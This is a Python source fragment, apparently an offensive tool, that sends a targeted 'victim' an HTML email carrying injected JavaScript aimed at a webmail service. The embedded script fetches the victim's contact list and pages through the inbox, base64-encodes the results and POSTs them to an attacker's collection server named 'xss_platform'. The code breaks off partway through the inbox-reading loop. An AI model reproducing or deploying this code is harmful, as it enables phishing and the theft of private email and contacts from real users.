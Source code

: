 ```python

def _format_addr(s):
    name, addr = parseaddr(s)
    return formataddr((Header(name, 'utf-8').encode(), addr))

def send_mail():

    from_addr = mail_user
    password = mail_pass
    smtp_server = mail_host
    to_addr = victim

    msg = MIMEMultipart()
    key_words = {}
    content = sent_content + gen_js()

    msg['From'] = _format_addr('%s' % from_addr)   
    msg['To'] = _format_addr('%s' % to_addr)      
    msg['Subject'] = Header('Read the email!', 'utf-8').encode()  

    msg.attach(MIMEText(content, 'html', 'utf-8'))
    server = smtplib.SMTP(mail_host, 25)   
    #server.set_debuglevel(1)
    server.login(from_addr, password)
    server.sendmail(from_addr, to_addr, msg.as_string())
    server.quit()


contact = '''
                try{
                newURL = currentURL.replace(/BlankMessageBody/,'Contacts');
                xmlhttp1=new XMLHttpRequest();
                url = newURL
                xmlhttp1.open('GET',url,false);
                xmlhttp1.send(null);
                response = xmlhttp1.responseText;
                var to_send1 = 'a=' + window.btoa(encodeURIComponent(response)) + decodeURIComponent('%26b=') + window.btoa(encodeURIComponent(user));
                xmlhttp4=new XMLHttpRequest();
                server = ' ''' + xss_platform + ''' '
                xmlhttp4.open('POST',server,false);
                xmlhttp4.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                xmlhttp4.send(to_send1);}catch(error){}
            '''

receive = '''
                try{    
                if('&View=Main')           
                newURL1 = currentURL.replace(/BlankMessageBody/,'List');
                EURL = currentURL.replace(/BlankMessageBody/,'Message');
                var all_email = new Array();
                var max_count = ''' + str(max_count_recevie) + ''';
                var key_words =''' + keywords_receive + ''';
                var max_page = 1;
                var page=1;
                for(page;page<max_page+1;page++){
                xmlhttp2=new XMLHttpRequest();
                url1 = newURL1 + decodeURIComponent('%26ReturnJavaScript=1%26FolderID=0%26Page=') + page
                xmlhttp2.open('GET',url1,false);
                xmlhttp2.send(null);
                response1 = xmlhttp2.responseText;
                data1 =JSON.parse(response1);
```